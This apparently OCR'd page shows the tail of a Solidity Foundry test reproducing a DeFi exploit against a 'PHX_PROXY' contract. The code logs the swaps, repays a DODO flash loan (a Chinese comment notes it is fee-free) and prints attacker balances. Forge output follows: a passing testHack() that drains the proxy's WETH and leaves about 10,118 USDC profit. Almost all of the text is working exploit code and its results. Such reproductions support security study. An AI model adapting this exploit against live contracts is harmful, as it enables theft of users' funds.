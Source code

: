 ```solidity
        emit log_named_decimal_uint("swap amounts[0]", amounts[0], 18);
        emit log_named_decimal_uint("swap amounts[1]", amounts[1], 18);
        emit log_named_decimal_uint("swap amounts[2]", amounts[2], 6);

        emit log_named_decimal_uint(
            "Attacker USDC balance after exploit:",
            USDC.balanceOf(address(this)),
            6
        );

        //归还贷款 (DODO Flash Loan 不要手续费 )
        USDC.transfer(address(DPP), 7990000000);

        emit log_named_decimal_uint(
            "Attacker USDC balance after return FlashLoan:",
            USDC.balanceOf(address(this)),
            6
        );

        emit log_named_decimal_uint(
            "Attacker WETH balance after exploit:",
            WETH.balanceOf(address(this)),
            18
        );
    }
}

```

输出

```
~ ❯ forge test --match-contract HackTest  -vv         
[⠔] Compiling...
[⠑] Compiling 1 files with 0.8.17
[⠘] Solc 0.8.17 finished in 2.16s
Compiler run successful

Running 1 test for test/hack.t.sol:HackTest
[PASS] testHack() (gas: 3381824)
Logs:
  Attacker USDC balance before exploit:: 0.000000
  Attacker WETH balance before exploit:: 1.000000000000000000
  WETH.balanceOf(address(PHX_PROXY)) before buyLeverage: : 0.000000000423128453
  WETH.balanceOf(address(PHX_PROXY)) after buyLeverage: : 11.407989927123285963
  WETH.balanceOf(address(PHX_PROXY)) after exploit: : 0.000000000000000000
  swap amounts[0]: 1000000.000000000000000000
  swap amounts[1]: 11.414989927073990725
  swap amounts[2]: 18108.937231
  Attacker USDC balance after exploit:: 18108.937231
  Attacker USDC balance after return FlashLoan:: 10118.937231
  Attacker WETH balance after exploit:: 0.993000000000000000
```

